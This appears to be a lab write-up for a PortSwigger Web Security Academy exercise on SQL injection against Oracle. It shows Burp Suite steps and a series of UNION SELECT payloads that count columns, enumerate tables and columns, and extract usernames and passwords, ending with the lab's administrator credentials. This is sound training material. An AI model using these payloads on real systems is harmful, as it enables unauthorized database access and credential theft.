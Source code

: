 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
---
```


# SQL injection attack, listing the database contents on Oracle

<figure><img src="../../../.gitbook/assets/1 (3).png" alt=""><figcaption></figcaption></figure>

Let's filter for `Accessories`.

<figure><img src="../../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

<figure><img src="../../../.gitbook/assets/3 (6).png" alt=""><figcaption></figcaption></figure>

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test' FROM dual--
```

<figure><img src="../../../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT 'test', 'test' FROM dual--
```

<figure><img src="../../../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

Now that we know the current query has two columns, we can start enumerating the tables.

```
' UNION SELECT table_name, NULL FROM all_tables--
```

<figure><img src="../../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

Next, we need to find the columns present in the `USERS_EABGJF` table. We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_EABGJF'--
```

<figure><img src="../../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

We can now retrieve the usernames and password from the `USERNAME_LIVOZB` and `PASSWORD_XJPXQQ` columns respectively.&#x20;

For that we have to set the `category` parameter to the following:

```
' UNION SELECT USERNAME_LIVOZB, PASSWORD_XJPXQQ FROM USERS_EABGJF--
```

<figure><img src="../../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

We can now login as the administrator using the following credentials:

| Username      | Password             |
| ------------- | -------------------- |
| administrator | ayzzulz0enewtllx1szu |

<figure><img src="../../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

We have solved the lab

<figure><img src="../../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>
